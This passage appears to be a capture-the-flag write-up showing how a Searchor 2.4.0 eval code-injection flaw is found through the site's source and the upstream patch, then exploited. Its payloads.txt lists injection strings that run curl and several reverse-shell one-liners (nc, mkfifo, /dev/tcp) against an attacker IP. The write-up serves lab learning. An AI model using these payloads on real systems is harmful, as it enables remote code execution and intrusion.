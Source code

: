 ```bash
```

Nothing too special here.

When looking around in the websites source code, we find the repository that is being used for the search functionality:
```html
 <p class="copyright">Powered by <a style="color:black" target='_blank' href="https://flask.palletsprojects.com">Flask</a> and <a  style="color:black" target='_blank' href="https://github.com/ArjunSharda/Searchor">Searchor 2.4.0</a> </p><br>
 ```

When going through the repository (release versions)[https://github.com/ArjunSharda/Searchor/releases], we find that v2.4.2 has patched a security vulnerability. When we look at the PR for this, we see that our version (v2.4.0) contains an `eval`statement:
>What is this Pull Request About?
>
>The simple change in this pull request replaces the execution of search method in the cli code from using eval to calling search on the specified engine by passing engine as an attribute of Engine class. Because enum in Python is a set of members, each being a key-value pair, the syntax for getting members is the same as passing a dictionary.
>
>What will this Pull Request Affect?
>
>This pull request removes the use of eval in the cli code, achieving the same functionality while removing vulnerability of allowing execution of arbitrary code.

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
        if copy:
            click.echo("link copied to clipboard")
    except AttributeError:
        print("engine not recognized")
```

## Foothold
We can use this information to start building our payload.

We catch the search request in burp and then created a payloads file. This file will contain different potential payloads, which we will then run via a python script. We first run the 'test' value, afterwards we try to perform a curl to see if we get a hit, then we try some reverse shell syntax. On the third payload, we managed to get a reverse shell.

### payloads.txt
```
'test'
'+__import__('os').system('curl 10.10.14.57')+'
'+__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.57 1234 >/tmp/f')+'
'+__import__('os').system('nc 10.10.14.57 1234 -e /bin/sh')+'
'+__import__('os').system('/bin/bash -i >& /dev/tcp/10.10.14.57/1234 0>&1')+'
'+__import__('os').system('0<&196;exec 196<>/dev/tcp/10.10.14.57/1234; /bin/bash <&196 >&196 2>&196')+'
'+__import__('os').system('sh -i >& /dev/tcp/10.10.14.57/1234 0>&1')+'
'+__import__('os').system('nc -c sh 10.10.14.57 1234')+'
';import os;os.system("curl 10.10.14.57");#'
```